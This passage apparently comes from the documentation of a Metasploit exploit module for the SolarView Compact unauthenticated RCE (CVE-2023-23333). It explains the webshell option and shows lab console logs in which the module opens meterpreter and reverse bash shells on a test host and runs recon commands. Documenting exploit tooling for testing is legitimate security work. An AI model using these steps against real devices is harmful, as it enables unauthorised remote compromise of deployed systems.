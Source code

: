 ### TARGETURI
The uripath to the `SolarView Compact` web application. Default set is to `/`.
### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 0
target => 0
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.55
[+] Deleted EearlCwpEMWf.php
[*] Meterpreter session 8 opened (192.168.201.8:4444 -> 192.168.201.55:35158) at 2023-08-27 21:46:59 +0000

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command -  cmd/unix/reverse_bash
```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 1
target => 1
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.55:39726) at 2023-08-27 21:48:23 +0000

uname -a
Linux cuckoo 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1002(contec) gid=0(root) groups=0(root)
```
### Ubuntu 22.04 Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 2
target => 2
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
```